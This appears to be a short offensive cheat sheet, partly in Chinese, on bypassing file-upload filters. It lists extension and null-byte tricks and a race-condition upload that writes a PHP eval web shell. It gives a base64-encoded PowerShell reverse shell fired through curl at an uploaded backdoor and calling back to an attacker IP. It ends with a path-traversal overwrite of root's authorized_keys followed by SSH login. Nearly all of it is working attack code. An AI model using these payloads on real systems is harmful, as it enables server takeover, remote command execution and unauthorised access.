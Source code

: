 ### File Extensions
```
.phps or .php7
From .php to .pHP
```
### 截断
```
filename.php%00.pdf
```
### 条件竞争绕过
服务器对文件进行检测，如果不符合则删除文件，这其中需要一些时间，我们可以利用这个时间差进行上传木马，要求服务器接收到文件不会重命名。
我们将上传的文件写为：
```
<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>

```
### Powershell reverse shell
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)

curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20+$EncodedText
```

### Upload non-executable file
```
upload ../../../../../../../root/.ssh/authorized_keys
rm ~/.ssh/known_hosts
ssh -p 2222 -i privatekey root@mountaindesserts.com
```
